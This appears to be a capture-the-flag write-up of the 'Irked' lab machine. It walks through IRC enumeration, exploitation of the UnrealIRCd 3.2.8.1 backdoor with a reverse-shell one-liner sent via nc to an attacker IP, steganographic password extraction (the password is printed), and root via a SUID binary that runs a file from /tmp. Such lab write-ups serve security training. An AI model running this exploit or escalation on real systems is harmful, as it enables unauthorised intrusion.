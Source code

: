 # Irked

### Machine Info
![](screenshots/irked.png)

#### Nmap
![](screenshots/nmap_full.png)


##### HTTP (Port 80)
Index Page:
![](screenshots/index.png)

###### Gobuster
Tried `gobuster` but nothing interesting:
![](screenshots/gobuster.png)


##### IRC (Port 6697) Internet Relay Chat Protocol

![](screenshots/irc_telnet.png)

I searched for `irc` service and found about connect registration: []()https://tools.ietf.org/html/rfc1459#section-4.1
![](screenshots/irc_rfc.png)

User registration process:
![](screenshots/irc_registration.png)

The version of irc is `UnrealIRC 3.2.8.1`. Let's search for public exploit:
![](screenshots/irc_exploit.png)

The `UnrealIRCd 3.2.8.1` is vulnerable to `Remote Code Execution`. We can use that vulnerability to exploit this service.

#### Exploit

Vulnerability:
![](screenshots/irc_vulnerability.png)

Exploit Code:
```
echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'" | nc 10.10.10.117 6697
```
![](screenshots/exploit.png)

`nc` listener on attacking side:
![](screenshots/user_shell.png)



#### Privilge Escalation

I enumerated and found that home directory of user `djmardov` is accessible and got the interesting file `.backup`:

![](screenshots/user_pw.png)

Super elite `steg` backup password. I tried this password to login with `ssh` but failed. I think this is something related to steganography. So far I only faced with one image, at the index page. Just get that image and try to extract some hidden data:

```
❯ wget http://10.10.10.117/irked.jpg
❯ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
❯ cat pass.txt
Kab6h+m+bbp2J:HG
```

This could be password of `djmardov`. Try again with `ssh`:
![](screenshots/djmardov.png)

Then I just run linux enumeration script `lse.sh` and found that there is a binary `/usr/bin/viewuser` which looks interesting:
![](screenshots/viewuser.png)


Just execute binary to check what it is:
![](screenshots/viewuser_exec.png)

It seems like it is trying to execute `/tmp/listusers`. So I just create simple `listusers` which just spawns bash shell:

```
djmardov@irked:/tmp$ echo bash > listusers
djmardov@irked:/tmp$ chmod 755 listusers
djmardov@irked:/tmp$ cat listusers
bash
```

And execute:
![](screenshots/root_shell.png)

We got the root shell and you can get `root.txt` :)
